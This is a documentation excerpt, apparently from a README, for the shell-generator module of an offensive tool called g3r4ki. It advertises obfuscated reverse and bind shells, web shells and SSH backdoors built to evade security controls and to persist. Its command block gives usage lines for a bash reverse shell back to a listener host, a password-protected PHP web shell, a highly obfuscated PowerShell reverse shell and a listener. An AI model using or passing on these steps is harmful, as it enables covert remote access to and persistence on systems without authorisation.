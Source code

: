 ## Shell Generator

The Shell Generator creates highly customized and obfuscated reverse and bind shells.

### Supported Shell Types

- Reverse Shells
- Bind Shells
- Web Shells
- SSH Backdoors
- UDP Shells
- ICMP Shells
- DNS Tunneling Shells

### Supported Languages/Platforms

- Bash
- PowerShell
- Python
- Perl
- Ruby
- PHP
- JSP/ASPX
- C/C++
- Go
- Rust

### Features

- **Anti-Detection**: Obfuscation to bypass security controls
- **Encryption**: Encrypted communications
- **Persistence**: Automatic reconnection capability
- **Tunneling**: Multi-protocol tunneling options
- **One-liners**: Compact command versions for limited input scenarios

### Commands

```bash
# Generate a reverse shell
python g3r4ki.py offensive shell generate --type reverse --language bash --lhost 192.168.1.5 --lport 4444

# Generate a web shell with password protection
python g3r4ki.py offensive shell generate --type web --language php --password SuperSecret123 --output webshell.php

# Generate an obfuscated PowerShell reverse shell
python g3r4ki.py offensive shell generate --type reverse --language powershell --lhost 192.168.1.5 --lport 4444 --obfuscation high --output rev_shell.ps1

# Start a listener for a reverse shell
python g3r4ki.py offensive shell listen --port 4444
```
